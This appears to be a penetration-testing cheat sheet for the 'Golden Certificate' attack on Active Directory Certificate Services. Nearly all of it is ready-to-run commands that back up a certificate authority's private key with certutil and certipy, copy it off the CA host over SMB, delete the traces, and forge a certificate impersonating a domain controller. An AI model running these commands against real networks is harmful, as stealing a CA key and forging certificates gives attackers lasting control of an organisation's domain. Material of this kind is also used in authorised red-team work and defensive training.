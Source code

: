 # Golden Certificate

Backup and extract manually:

```
Cmd > certutil -backupkey -f -p Passw0rd! C:\Windows\CABackup
$ smbclient.py -k -no-pass CA01.megacorp.local
# use c$
# cd windows/CABackup
# get CorpCA.p12
# rm CorpCA.p12
# cd ..
# rmdir CABackup
```

P12 to PFX:

```
$ certipy cert -pfx CorpCA.p12 -password 'Passw0rd!' -export -out CorpCA.pfx
```

Get CRL from the DC:

```
$ </dev/null openssl s_client -connect <DC_IP>:636 | openssl x509 > dc.crt
```




## Certipy

```
$ certipy ca -backup -ca CorpCA -k -no-pass -target CA01.megacorp.local -dc-ip 192.168.1.11 -ns 192.168.1.11
$ certipy forge -ca-pfx CorpCA.pfx -upn 'DC01$@megacorp.local' (or -dns DC01.megacorp.local) -subject 'CN=DC01,OU=Domain Controllers,DC=megacorp,DC=local' -crl 'ldap://***'
```

